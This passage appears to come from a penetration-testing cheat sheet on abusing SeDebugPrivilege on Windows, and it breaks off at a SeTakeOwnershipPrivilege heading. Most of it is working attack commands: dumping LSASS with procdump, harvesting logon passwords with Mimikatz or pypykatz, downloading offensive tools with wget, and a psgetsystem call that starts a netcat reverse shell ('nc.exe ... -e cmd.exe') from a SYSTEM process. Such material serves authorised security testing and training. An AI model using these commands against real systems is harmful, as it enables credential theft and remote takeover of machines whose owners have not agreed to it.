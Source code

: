 - Migrate the process with the meterpreter :
```sh
migrate <pid>
```

**Dump LSASS:**

- Download procdump.exe:
```sh
wget https://download.sysinternals.com/files/Procdump.zip
```

- Run procdump:
```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

- Download Mimikatz:
```sh
wget https://github.com/ParrotSec/mimikatz/tree/master/x64
```

- Use Mimikatz:
```cmd
mimikatz.exe
mimikatz # log
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

- Dump Locally :
```sh
pypykatz lsa minidump lsass.dmp
```
https://github.com/skelsec/pypykatz

**Tools:**

- Download psgetsystem from:
```sh
wget https://github.com/decoder-it/psgetsystem/blob/master/psgetsys.ps1
```

- Run command:
```powershell
import-module .\psgetsys.ps1

Get-Process winlogon

[MyProcess]::CreateProcessFromParent("552","c:\windows\system32\cmd.exe", "/c c:\windows\temp\nc.exe 127.0.0.1 4444 -e cmd.exe")
```

- Download SeDebugPrivilegePoC from:
```sh
wget https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC
```

#### SeTakeOwnershipPrivilege:
#SeTakeOwnershipPrivilege
